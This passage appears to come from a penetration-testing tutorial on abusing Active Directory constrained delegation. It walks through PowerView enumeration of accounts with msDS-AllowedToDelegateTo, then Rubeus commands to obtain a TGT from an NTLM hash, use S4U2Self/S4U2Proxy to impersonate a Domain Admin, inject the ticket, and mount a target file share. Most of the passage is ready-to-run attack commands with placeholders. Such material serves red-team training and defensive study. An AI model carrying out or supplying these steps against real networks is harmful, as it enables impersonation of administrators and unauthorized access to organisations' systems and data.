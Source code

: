 Once you have the service ticket, you can use **Rubeus** to apply the ticket and access the service (e.g., a file share):

```powershell
Rubeus.exe ptt /ticket:<TicketFile>
```

This applies the service ticket. After applying the ticket, you can access the service, for example, mounting a file share as the impersonated user:

```powershell
net use \\TargetServer\ShareName
```

---

### **Summary: Combining `msDS-AllowedToDelegateTo` with S4U2Self/S4U2Proxy and Rubeus**

1. **Identify the service accounts** with constrained delegation using **PowerView**:
   - Look for accounts with the **`msDS-AllowedToDelegateTo`** property that lists services the account can delegate to.
   
   ```powershell
   Get-DomainUser -TrustedToAuth
   Get-DomainComputer -TrustedToAuth
   ```

2. **Generate a TGT** for the service account using **Rubeus** and the service account's **NTLM hash**.

   ```powershell
   Rubeus.exe tgtdeleg /user:<ServiceAccount> /rc4:<NTLM Hash> /domain:<DomainName> /dc:<DomainController> /nowrap
   ```

3. Use **S4U2Self** to impersonate a user (e.g., **Domain Admin**) using the service account's constrained delegation rights.

   ```powershell
   Rubeus.exe s4u /user:<ServiceAccount> /impersonateuser:<DomainAdmin> /rc4:<NTLM Hash> /domain:<DomainName> /sid:<DomainSID>
   ```

4. Use **S4U2Proxy** to request service tickets for services listed in the **`msDS-AllowedToDelegateTo`** property.

   ```powershell
   Rubeus.exe s4u /user:<ServiceAccount> /impersonateuser:<DomainAdmin> /rc4:<NTLM Hash> /domain:<DomainName> /sid:<DomainSID> /targetservice:cifs /targetserver:TargetServer
   ```

5. **Apply the ticket** and access the service as the impersonated user.

   ```powershell
   Rubeus.exe ptt /ticket:<TicketFile>
   ```

6. **Use the ticket** to access services like **CIFS**, **HTTP**, or others on behalf of the impersonated user.
